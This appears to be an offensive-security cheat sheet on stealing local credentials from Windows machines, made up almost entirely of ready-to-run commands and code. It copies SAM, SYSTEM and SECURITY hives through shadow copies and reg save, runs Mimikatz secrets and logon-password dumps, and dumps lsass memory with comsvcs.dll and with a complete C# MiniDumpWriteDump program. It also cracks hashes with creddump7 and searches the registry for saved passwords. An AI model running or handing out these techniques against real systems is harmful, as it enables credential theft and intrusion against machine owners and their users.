 # Windows Local Credential Access

***

### Dump Local Credential

```cmd
 wmic shadowcopy call create Volume='c:\'
```

```cmd
vssadmin list shadows
```

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4\windows\system32\config\sam  .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4\windows\system32\config\system   .
```

```
reg save HKLM\sam sam
reg save HKLM\system system
```

```
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d  sam
```

Cracking with Creddump7

```
Git clone <https://github.com/Neohapsis/creddump7>
Python  pwdump.py  /home/kali/system  /home/kali/sam
```

### Dump LSA

`Mimikatz`

Live

```
    token::elevate
    lsadump::secrets
```

Offline

```
reg save HKLM\SYSTEM system & reg save HKLM\security security
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```

`Registry`

    HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets

### Dump lsass

#### native DLL

```
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

#### dump with csharp

Dumplsass.cs

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;
namespace MiniDump
{
    class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId,
        IntPtr hFile, int DumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);
        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle,
        int processId);
        static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp",
            FileMode.Create);
            Process[] lsass = Process.GetProcessesByName("lsass"); int lsass_pid = lsass[0].Id;
            IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
            bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        }
    }
}
```

`mimikatz`

```cmd
mimikatz # sekurlsa::minidump c:\windows\tasks\lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

### Credentials in Registry

```
reg query HKCU /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s
```
